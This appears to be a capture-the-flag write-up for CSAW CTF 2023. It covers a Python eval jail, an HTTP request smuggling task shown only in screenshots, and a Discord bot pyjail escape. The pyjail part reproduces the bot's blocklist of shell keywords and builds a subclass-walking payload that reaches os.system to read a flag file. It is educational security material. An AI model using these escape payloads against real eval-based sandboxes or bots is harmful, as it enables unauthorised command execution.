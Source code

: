 ```yaml
---
render_with_liquid: false
title: CSAW CTF 2023
tags: [ctf, csaw-ctf-2023, misc, web, python-jail-escape, http-request-smuggling, discord, discord-bot]
---
```




# Intro

> Only played a little for this

## my_first_pwnie


### Info

You must be this 👉 high to ride.

Author: `ElykDeer`

---

Connect with:

`nc intro.csaw.io 31137`


### Solve

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/csaw-ctf-2023]
└─$ rlwrap nc intro.csaw.io 31137
What's the password? __import__('os').system('cat /flag.txt')
csawctf{neigh______}
You entered `0`
Nay, that's not it.
```


# Web


## Smug-Dino


### Info

Don't you know it's wrong to smuggle dinosaurs... and other things?

Author: `rollingcoconut`

---

[http://web.csaw.io:3009/](http://web.csaw.io:3009/)


### Solve

HTTP request smuggling

![](/assets/obsidian/f4ef1672dd433e17fecd164124922a51.png)

![](/assets/obsidian/b62d54d854c1bc08f911bd0d598fc3be.png)


# Misc


## Discord Admin Bot


### Info

Join discord and get the flag.

discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23

`Author: Krishnan Navadia`


### Solve

![](/assets/obsidian/95dc092681dd6b4f5b3c5592c4ac6fed.png)

There's no way I get admin role at the server, but it's not strictly checking for `role_id`, 

so I can invite the bot to my own server, then give myself a role called `admin`

![](/assets/obsidian/aa1d27a95942e2eee09f15c5b1166670.png)

The pyjail uses `eval()` to wrap user input

![](/assets/obsidian/fe909dc876eec6c063e21cf1e1e66642.png)

It doesn't ban `class`

```python
SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)
```

Invite that bot by copying its id, then fit in the invite url format : `https://discord.com/oauth2/authorize?client_id=1152454751879962755&scope=bot&permissions=8`

![](/assets/obsidian/e41383a95946744af032cbc898a83295.png)

Craft payload :

First mirror the functions in `ipython3` to test on local

```python
import subprocess, os

SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)

def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"
```

![](/assets/obsidian/7f591a94403f6c975e4e3650615b7735.png)

```bash
In [3]: pyjail("''.__class__.__mro__[1].__subclasses__()")
```

![](/assets/obsidian/83ed303e1537f7688ab800bd84ba58a5.png)

Success

```bash
In [14]: pyjail("''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('pwd')")
/home/kali/ctf/csaw-ctf-2023
0

terminating process now
Out[14]: '```/home/kali/ctf/csaw-ctf-2023\n0\n```'
```

Final payload :

```bash
print(''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('cat flag.txt'))
```

